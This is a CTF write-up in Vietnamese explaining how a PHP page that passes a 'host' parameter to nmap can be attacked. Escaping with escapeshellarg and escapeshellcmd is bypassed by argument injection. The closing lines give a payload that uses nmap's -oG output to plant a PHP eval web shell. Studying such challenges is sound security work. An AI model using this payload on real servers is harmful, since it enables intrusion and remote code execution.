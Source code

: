 Challenge cho ta source code sau:

```php
<?php
 
if (isset($_SERVER['HTTP_X_FORWARDED_FOR'])) {
    $_SERVER['REMOTE_ADDR'] = $_SERVER['HTTP_X_FORWARDED_FOR'];
}
 
if(!isset($_GET['host'])) {
    highlight_file(__FILE__);
} else {
    $host = $_GET['host'];
    $host = escapeshellarg($host);
    $host = escapeshellcmd($host);
    $sandbox = md5("glzjin". $_SERVER['REMOTE_ADDR']);
    echo 'you are in sandbox '.$sandbox;
    @mkdir($sandbox);
    chdir($sandbox);
    echo system("nmap -T5 -sT -Pn --host-timeout 2 -F ".$host);
}
```

Đầu tiên là `REMOTE_ADDR` và `X_FORWARDED_FOR` cũng ko quan trọng mấy.Ta có thể truyền tham số “host” thông qua method GET. Nếu tham số host có tồn tại thì nó sẽ được xử lí lần lượt qua 2 hàm `escapeshellarg()` và `escapeshellcmd()`.Đối với hàm `escapeshellarg` nó sẽ chuyển từ chuỗi thành tham số có thể sử dụng trong shell command, và bọc dấu ngoặc đơn để đảm bảo rằng các ký tự đặc biệt không được hiểu là phần của lệnh, mà chỉ được coi là phần chuỗi.

`escapeshellcmd` Đảm bảo rằng user chỉ thực hiện một command.Dấu “\” sẽ được thêm vào trước các kí tự & #; `| \? ~ <> ^ () [] {} $ *, \ X0A và \ xFF

# Bypass

![image](https://github.com/Llam-a/BUUCTF/assets/115911041/4c964fda-0b73-49b1-8969-07d3b48ad741)


![image](https://github.com/Llam-a/BUUCTF/assets/115911041/2bd5a9be-1080-46f1-979f-e7cdf3a96f3b)

Mình có đọc [wu](https://security.szurek.pl/en/exploit-bypass-php-escapeshellarg-escapeshellcmd/#gitlist-rce-exploit) này, theo wu viết thì có cách để bypass 2 hàm này là Argument injection - tấn côn dựa trên việc giả các tham số.Vậy ta có pass vào các option mới cho command.Tùy vào command mà challenge cho thì cách bypass khác nhau. Với command của challenge cho là

`nmap -T5 -sT -Pn --host-timeout 2 -F`

Payload: `nmap -T5 -sT -Pn --host-timeout 2 -F '1'\\shellcode\'`

shellcode: `'<?php eval($_POST[a]);?> -oG hack.php '`


